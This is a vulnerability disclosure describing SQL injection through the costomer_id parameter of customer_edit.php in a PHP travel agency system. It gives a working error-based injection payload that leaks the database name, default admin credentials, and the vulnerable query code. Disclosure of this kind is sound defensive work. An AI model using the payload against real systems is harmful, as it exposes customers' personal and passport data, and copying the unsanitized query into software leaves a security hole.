

# [Online Travel Agency System-SQL Injection-customer_edit.php]

## Basic Information

**[Bug Reporter]:**  DililLearngent

**[Application Vendors]:**  https://www.sourcecodester.com/online-travel-agency-system-using-php.html

**[Test Environment]:**  windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"travel_agency"**.

5. **Import** the provided **SQL** file. The file is known as **"travel_agency.sql"** located inside the extracted source code folder.

6. **Browse** the **Online Travel Agency System** in a **browser**. i.e. **http://localhost/Travel**

   **Admin Access Information:**

   Username: **admin**
   Password: **admin**

## Bug Information

**[Vulnerability type]:** SQL Injection

**[Vulnerability Url]:** `http://10.142.221.111/Travel/admin/customer_edit.php?costomer_id=104`    

**[Vulnerability Location]:** Travel/admin/customer_edit.php

**[Vulnerability Test]:**

1. payload:`costomer_id=104%27%20and%20extractvalue(1,concat(0x7e,(select%20database()),0x7e))--+`

   

   The database name was obtained from the above payload execution.

**[code analysis]:**

Travel/admin/customer_edit.php

```php
<?php
  $sql="select*from costomer where costomer_id='$_GET[costomer_id]'";
$result=mysqli_query($con,$sql) or die(mysqli_error($con));
while($row=mysqli_fetch_array($result))
{
	$costomer_id=$row['costomer_id'];
	$full_name=$row['full_name'];
	$son_of=$row['son_of'];
	$status=$row['status'];
	$date_of_birth=$row['date_of_birth'];
	$place_of_birth=$row['place_of_birth'];
	$previous_nationality=$row['previous_nationality'];
	$present_nationality=$row['present_nationality'];
	$sex=$row['sex'];
	$marital_status=$row['marital_status'];
	$sect=$row['sect'];
	$religion =$row['religion'];
	$place_of_issue=$row['place_of_issue'];
	$qualification=$row['qualification'];
	$profession=$row['profession'];
	$home_address=$row['home_address'];
	$telephone_no=$row['telephone_no'];
	$purpose_of_travel=$row['purpose_of_travel'];
	$date_of_passport=$row['date_of_passport'];
	$passport_no=$row['passport_no'];
	$date_of_passport_expiry=$row['date_of_passport_expiry'];
	$duration_of_stay_in_kindom=$row['duration_of_stay_in_kindom'];
	$date_of_arrival =$row['date_of_arrival'];
	$date_of_departure=$row['date_of_departure'];
	$mode_of_payment=$row['mode_of_payment'];
	$relationship=$row['relationship'];
	$destination=$row['destination'];
	$carriers_name=$row['carriers_name'];
	$visa_no=$row['visa_no'];
	$date_of_insertion=$row['date_of_insertion'];
	$inserted_by=$row['inserted_by'];
}
?>
```

The GET parameter `costomer_id` is obtained without any filtering and spliced directly into the sql execution statement, and display the errors returned by the database execution back to the front-end page.

